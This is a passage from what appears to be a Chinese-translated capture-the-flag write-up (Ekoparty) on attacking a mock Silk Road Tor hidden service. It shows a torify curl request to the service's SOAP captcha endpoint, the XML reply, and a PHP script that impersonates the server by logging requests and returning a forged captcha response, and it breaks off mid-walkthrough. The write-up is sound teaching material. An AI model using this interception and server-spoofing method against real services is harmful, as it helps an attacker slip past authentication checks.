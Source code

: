 结果发现，`hiddenservice_ws.php` 提供的是 SOAP API，查询本身用于生成验证字。有趣的事实 - 最初的丝绸之路，是被泄漏的验证码追踪到的（至少 FBI 声称是这样的），更多关于它：<https://krebsonsecurity.com/2014/09/dread-pirate-sunk-by-leaky-captcha/> - 很好的 Ekoparty 尝试;）。
现在有了我们的代理黑客，我们可以：

- 查看服务器查询，
- 将有效查询，发送到真实 API，
- 用我们自己的响应，改变了响应。

知道这一点后，我们可以尝试登录该服务。将上述请求发送到真正的 `hiddenservice_ws.php`，会返回以下输出：

```bash
$ torify curl -k "https://silkroadzpvwzxxv.onion/d90cdc7988b15060c1896126cee2eae9/hiddenservice_ws.php" -H "Host: hiddenservicehost" -H "Content-Type: text/xml; charset=utf-8" -H "SOAPAction: https://hiddenservicehost/d90cdc7988b15060c1896126cee2eae9/getCaptchaWord" --data @data.xml

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://localhost/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <SOAP-ENV:Body>
    <ns1:getCaptchaWordResponse>
      <return xsi:type="xsd:string">wsjnDR</return>
    </ns1:getCaptchaWordResponse>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

现在，让我们改变我们的脚本假装成一个服务器，并让它将这个响应发回去：

> 假的 SOAP 服务器 – part 1

```php
<?php
$input = print_r(file_get_contents('php://input') , TRUE);
$fp = fopen('request.log', 'a');
fwrite($fp, $input);
fclose($fp);
header('Content-Type: text/xml; charset=utf-8');

if (strstr($input, 'getCaptchaWord') !== False)
{
?>
<?xmlversion = "1.0"encoding = "UTF-8" ?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://localhost/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getCaptchaWordResponse><return xsi:type="xsd:string">wsjnDR</return></ns1:getCaptchaWordResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>
<?php
}
?>
```

我们得到的下一个请求：
